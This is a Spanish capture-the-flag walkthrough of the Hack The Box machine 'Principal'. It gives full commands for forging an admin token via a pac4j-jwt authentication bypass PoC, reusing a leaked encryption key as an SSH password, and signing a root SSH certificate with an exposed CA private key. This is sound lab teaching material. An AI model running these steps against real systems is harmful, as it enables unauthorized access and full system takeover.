
<h1>Principal</h1>
  

## ❓ ¿Qué es Principal?

Principal es una máquina Linux de dificultad media enfocada en autenticación web mediante JWT/JWE y certificados SSH. Permite practicar enumeración de una aplicación Java, explotación de un bypass de autenticación en **pac4j-jwt**, acceso a endpoints administrativos, reutilización de credenciales y escalada de privilegios mediante el abuso de una autoridad certificadora SSH.

## 🔝 Despliegue Principal

Tras descargar el archivo **.ovpn** que ofrece la plataforma, es necesario iniciar la conexión VPN desde la terminal ejecutando:

**sudo openvpn archivo.ovpn**



Una vez levantada la VPN, comprobamos que existe conectividad entre nuestra máquina Kali y la máquina objetivo.

**ping -c 1 10.129.244.220**



## 🔎 Fase de descubrimiento

Conociendo la dirección IP de la máquina vulnerable, **10.129.244.220**, comenzamos realizando un escaneo con **nmap** para identificar los servicios expuestos.

El comando utilizado es el siguiente:

**nmap -sC -sV --min-rate 5000 10.129.244.220 -oN escaneo.txt**

| Argumento | Significado |
|---|---|
| **nmap** | Herramienta utilizada para realizar el escaneo de puertos y servicios |
| **-sC** | Ejecuta scripts por defecto para realizar comprobaciones comunes |
| **-sV** | Detecta las versiones de los servicios identificados |
| **--min-rate 5000** | Solicita el envío de al menos 5000 paquetes por segundo |
| **10.129.244.220** | Dirección IP del objetivo a escanear |
| **-oN escaneo.txt** | Guarda el resultado en formato normal dentro de **escaneo.txt** |



> [!NOTE]
>
> Se ha utilizado un escaneo rápido porque estamos trabajando en un entorno controlado de Hack The Box, donde no nos preocupa generar ruido ni ser detectados.
>
> En un entorno real, sería recomendable reducir la velocidad, evitar **--min-rate 5000** y valorar técnicas como **-sS**, que realiza un escaneo SYN sin completar totalmente la conexión TCP.

En este caso, se identifican los siguientes servicios TCP expuestos:

- **SSH - Puerto 22:** OpenSSH 9.6p1 sobre Ubuntu.
- **HTTP - Puerto 8080:** aplicación web servida mediante Jetty.

El escaneo muestra que la aplicación redirige a **/login**. También devuelve la cabecera **X-Powered-By: pac4j-jwt/6.0.3**, que revela tanto el framework de autenticación como su versión.

Al acceder a **http://10.129.244.220:8080/login**, encontramos el panel de autenticación de **Principal Internal Platform**.



## 🖥️ Acceso al servidor

Revisando el código JavaScript de la aplicación en **/static/js/app.js**, encontramos información relevante sobre el mecanismo de autenticación.



El código indica que:

- El servidor entrega tokens cifrados **JWE**.
- El cifrado utiliza **RSA-OAEP-256** y **A128GCM**.
- El JWT interno utiliza **RS256**.
- La clave pública está disponible en **/api/auth/jwks**.
- Los roles válidos son **ROLE_ADMIN**, **ROLE_MANAGER** y **ROLE_USER**.
- Existen los endpoints **/api/dashboard**, **/api/users** y **/api/settings**.

Al acceder a **/api/auth/jwks**, obtenemos la clave pública RSA en formato JWK que utiliza la aplicación.



La versión **6.0.3** de **pac4j-jwt** es vulnerable a **[CVE-2026-29000](https://nvd.nist.gov/vuln/detail/CVE-2026-29000)**. El fallo permite introducir un JWT interno sin firma dentro de un JWE correctamente cifrado. De esta forma, la aplicación valida el contenedor cifrado, pero acepta las identidades y roles controlados por el atacante sin comprobar una firma válida del JWT interno.

Para explotar la vulnerabilidad, utilizamos el **[PoC de CVE-2026-29000](https://github.com/dua2z3rr/CVE-2026-29000-PoC)**:

**git clone https://github.com/dua2z3rr/CVE-2026-29000-PoC.git**

**cd CVE-2026-29000-PoC**

Instalamos las dependencias necesarias para ejecutar el script:

**python3 -m pip install -r requirements.txt**

Generamos un token para el usuario **admin** con el rol **ROLE_ADMIN**:

**python3 exploit.py -t http://10.129.244.220:8080 -u admin**



También podemos pedir al PoC que compruebe directamente el acceso al endpoint **/api/settings**:

**python3 exploit.py -t http://10.129.244.220:8080 -u admin --verify-endpoint /api/settings -v**

La respuesta **HTTP 200** confirma que el token forjado es válido y dispone de acceso administrativo.



Guardamos el JWE generado y lo enviamos como token **Bearer** para consultar los endpoints internos:

**curl -s http://10.129.244.220:8080/api/dashboard -H "Authorization: Bearer TOKEN" | jq**

En el historial del dashboard aparecen operaciones realizadas por el usuario **svc-deploy**, entre ellas la emisión de certificados SSH.



A continuación, enumeramos los usuarios:

**curl -s http://10.129.244.220:8080/api/users -H "Authorization: Bearer TOKEN" | jq**

La respuesta identifica a **svc-deploy** como una cuenta de servicio utilizada para despliegues automatizados mediante autenticación por certificados SSH.



Por último, consultamos la configuración del sistema:

**curl -s http://10.129.244.220:8080/api/settings -H "Authorization: Bearer TOKEN" | jq**



Entre los datos expuestos destacan:

| Campo | Valor |
|---|---|
| Framework de autenticación | **pac4j-jwt 6.0.3** |
| Ruta de la CA SSH | **/opt/principal/ssh/** |
| Autenticación por certificado SSH | **Habilitada** |
| Clave de cifrado | **D3pl0y_$$H_Now42!** |

La clave de cifrado se está reutilizando como contraseña de la cuenta de servicio. Probamos las credenciales mediante SSH:

**ssh svc-deploy@10.129.244.220**

Cuando se solicita la contraseña, introducimos **D3pl0y_$$H_Now42!**. El acceso es correcto y obtenemos una shell como **svc-deploy**.

Dentro de **/home/svc-deploy/** encontramos la flag de usuario.



## 🔓 Escalada de privilegios

La configuración obtenida desde **/api/settings** indicaba que los archivos de la autoridad certificadora SSH se encuentran en **/opt/principal/ssh/**. Enumeramos el directorio desde la sesión de **svc-deploy**:

**cd /opt/principal/ssh/**

**ls -la**

En el directorio se encuentran los siguientes archivos relevantes:

- **ca:** clave privada de la autoridad certificadora SSH.
- **ca.pub:** clave pública de la autoridad certificadora.
- **README.txt:** documentación sobre la automatización de certificados para las cuentas de servicio.

La clave privada **ca** puede ser leída por el grupo de despliegue al que pertenece **svc-deploy**. Como el servidor SSH confía en los certificados firmados por esta CA, disponer de su clave privada permite firmar una clave propia indicando **root** como principal autorizado.

## 🔐 Escalada a root

Primero generamos un nuevo par de claves **ED25519** desde la sesión de **svc-deploy**:

**ssh-keygen -t ed25519 -f ./key -N ""**

| Argumento | Significado |
|---|---|
| **-t ed25519** | Genera un par de claves utilizando el algoritmo ED25519 |
| **-f ./key** | Guarda la clave privada como **key** y la pública como **key.pub** |
| **-N ""** | Crea la clave privada sin frase de contraseña |



A continuación, utilizamos la clave privada de la CA para firmar nuestra clave pública y crear un certificado válido para el usuario **root**:

**ssh-keygen -s /opt/principal/ssh/ca -I "Hola caracola" -n root -V +1w ./key.pub**

| Argumento | Significado |
|---|---|
| **-s /opt/principal/ssh/ca** | Utiliza la clave privada de la CA para firmar el certificado |
| **-I "Hola caracola"** | Asigna un identificador al certificado para registros y auditoría |
| **-n root** | Define **root** como principal autorizado |
| **-V +1w** | Establece una validez de una semana |
| **./key.pub** | Clave pública que se va a certificar |

El comando genera el certificado **key-cert.pub**.



Finalmente, nos conectamos al servicio SSH local utilizando nuestra clave privada. OpenSSH detecta automáticamente el certificado **key-cert.pub** asociado:

**ssh root@localhost -i ./key**

La autenticación se completa correctamente y obtenemos una shell como **root**.



Accedemos al directorio **/root** y leemos la flag final.



##   ¡Hola! Me llamo Saúl Ruiz 
### Analista de Ciberseguridad | Seguridad Ofensiva y Pentesting

Soy Analista de Ciberseguridad y Técnico Superior en Administración de Sistemas Informáticos en Red. Actualmente desarrollo mi carrera en entornos SOC, participando en tareas de análisis, monitorización e investigación de eventos de seguridad.

Mi interés principal se orienta hacia la seguridad ofensiva, el pentesting y el análisis técnico, áreas en las que sigo formándome de manera constante para crecer profesionalmente dentro del sector.

A través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>, comparto contenido relacionado con informática, ciberseguridad y aprendizaje práctico, con el objetivo de aportar valor a quienes también quieren seguir creciendo en el mundo tecnológico.

 

